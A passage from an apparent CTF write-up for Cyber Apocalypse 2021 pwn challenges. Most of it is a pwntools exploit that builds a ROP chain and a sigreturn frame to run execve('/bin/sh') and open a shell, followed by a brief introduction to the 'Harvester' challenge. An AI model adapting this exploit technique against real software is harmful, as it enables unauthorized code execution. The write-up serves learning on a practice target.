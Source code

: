 ```python
	call_read = 0x400564
	
	ropchain += p64(call_read) + p64(stack_base) 

	# Pad for reach end of first read
	while len(ropchain) < 256:
	  ropchain += b'Z'
	assert(len(ropchain) == 256)
	
	
	# Send cmd into the stack with read
	# just before addr used to continue the ROP
	ropchain += b'/bin/sh\x00'
	
	# Rop continuation
	syscall_inst = 0x40053b
	
	ropchain += p64(elf.plt['alarm'])
	ropchain += p64(syscall_inst)

	frame     = SigreturnFrame()
	frame.rax = constants.SYS_execve
	frame.rdi = stack_base
	frame.rsi = 0
	frame.rdx = 0
	frame.r8  = 0
	frame.rsp = 0x601000
	frame.rip = syscall_inst
	ropchain += bytes(frame)

	p.send(ropchain)

	p.interactive()
```

The magic shell is coming:

![fig_system_drop_win](/posts/img/Cyber_Apocalypse_2021-system_drop_win.png)

## Harvester - Difficulty 2/4

*Challenge files: [pwn_harvester.zip](/posts/binaries/Cyber_Apocalypse_2021/pwn_harvester.zip)*

The `harvester` is a 64bits ELF that allows to perform some actions:

![fig_harvester](/posts/img/Cyber_Apocalypse_2021-harvester.png)

The libc used by the binary is provided with this challenge.

### Attack method

Protections are as follow:
